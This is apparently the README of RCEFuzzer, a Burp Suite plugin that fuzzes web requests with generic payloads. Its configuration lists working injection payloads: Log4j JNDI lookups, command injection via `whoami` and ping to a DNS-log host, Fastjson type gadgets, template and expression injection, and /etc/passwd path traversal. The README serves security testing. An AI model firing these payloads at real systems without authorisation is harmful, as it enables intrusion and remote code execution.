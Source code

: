 # RCEFuzzer


## 下载使用

[https://github.com/TheKingOfDuck/RCEFuzzer/releases/tag/0.5](https://github.com/TheKingOfDuck/RCEFuzzer/releases/tag/0.5)

## 参考链接

[RCEFuzzer - 被动扫描与fuzz上一些思路的实现](https://mp.weixin.qq.com/s/NYGBUWY820TDfnaHldxuow)

## 基本介绍

这是一个以fuzz为中心思想的被动扫描工具(该版本是BURP插件,并非独立工具)，多数扫描器的工作逻辑是以已知漏洞去冲目标，然后根据条件判断是否存在这个已知的漏洞；rcefuzzer的工作逻辑是以通用payload去污染目标的参数，然后根据条件判断是否存在未知漏洞。

举个例子，假设被动收集到的流量是

https://www.baidu.com
```
POST /sys/customer/list HTTP/1.1
Host: www.baidu.com
Content-Length: 23
Content-Type: application/json;charset=UTF-8

{"key1":"value1","key2":"eyJpbm5lcmtleTEiOiJpbm5lcnZhbHVlMSJ9","id":1,"isLogin":false,"key3":{"innerkey2":"{\"k3\":\"v3\"}"}}
```
如果配置了三条通用的payload:
```
${jndi:ldap://dnslog/log4j}
`whoami`.dnslog
{"@type":"java.net.Inet4Address","val":"dnslog"}
```

那么rcefuzzer的参数污染模块将对目标发起以下请求：

* 污染key1的值然后分别发包
* 通用污染key1的值然后分别发包
* 尝试自动解码，并污染子JSON的innerkey1的值3次然后分别发包
* 污染key3的值然后分别发包。
* 污染子JSONinnerkey2的值，然后分别发包。
* 尝试解析innerkey2，并污染子JSON的k3的值然后分别发包

理论上总的请求量是3*6=18次。这仅是参数污染模块，如果带上其他模块，那请求量可能是50。如果payload写得多点，原流量大一点，那么可能是5000次。

## 配置说明

```

###
#
# 配置说明:
#    1.tweb的配置是必须要改的, 不改显示不了漏洞
#    2.白名单的优先级是高于黑名单的
#    3.所有配置都是可以动态改的, 不用重新加载插件
# 使用说明:
#    https://www.wolai.com/gS5UWgMmHG4ynJQgzL3AYk
###
config:
  version: |  # 插件版本
    0.5
  twebdomain: | # tweb 子域名配置
    xxx.xx.com
  twebapi: |  # tweb api配置 其中KEY为展位符,在新旧版本的tweb均可在Profile页面找到
    https://admin.xxxx.com/logs?token=xxxxxx&type=dns&q=KEY
  timeout: |  # 扫描过程中的超时配置 非tweb请求超时设置 单位毫秒 60000为60秒
    60000
  hostBlacklistReg: |  # 禁止扫描的域名列表
    (.+?)(gov\.cn|edu\.cn|tweb|google|gstatic)(.+?)
  extBlacklist: |  # 禁止扫描的后缀列表,这不是正则，本来想从passive-scan-client中抄代码的,结果发现他有bug...
    .js|.css|.jpeg|.gif|.jpg|.png|.pdf|.rar|.zip|.docx|.doc|.ico

jsonPollution:
  status:  #on为开启 off为关闭
    on
  allin: | #替换整个json数据包
    {"@type":"java.net.Inet4Address","val":"dnslog"}
  value: | #仅污染json的键值 为了python eval那种情况考虑 不加双引号包裹的话污染结果类似{"test":__import__('os')} {"test":"{\"dtaa\":__import__('os')}"}
    "${jndi:ldap://dnslog/jsonkey}"
    __import__('socket').gethostbyaddr('dnslog')

paramPollution:
  status: #on为开启 off为关闭
    on
  exprs: | #为了兼容有回显的表达式注入/代码执行漏洞
    {{9527*2333}}|22226491
    ${T(java.lang.System).getenv()}|JAVA_HOME
    ${T+++++++(java.lang.System).getenv()}|JAVA_HOME
    {php}var_dump(md5(9527));{/php}|52569c045dc348f12dfc4c85000ad832
    {if+var_dump(md5(9527))}{/if}|52569c045dc348f12dfc4c85000ad832
    ../../../../../../../../../../../../../../../etc/passwd|root
  value: |
    dnslog
    ${jndi:ldap://paramPollution.dnslog/log4j}
    `whoami`.dnslog
    http://dnslog/
    ping+-nc+1+dnslog

headerPollution:
  status: #on为开启 off为关闭
    on
  allin: | #一次性污染除了url和host外的所有请求头
    ${jndi:dns://dnslog/456}
    ${jndi:ldap://dnslog/789}
  headers: | #添加的请求头如果原数据包有则追加原值污染 无则添加后再发包 竖线|为key和value的分隔符号。
    X-Forwarded-For|${jndi:dns://dnslog/456}
    X-Api-Version|${jndi:dns://dnslog/456}

ssrfPollution:
  status: #on为开启 off为关闭
    on

responseMatch:
  status: #on为开启 off为关闭
    off
  expr: | #添加的请求头如果原数据包有则覆盖原值污染 无则添加后再发包
    thinkphp:error


```
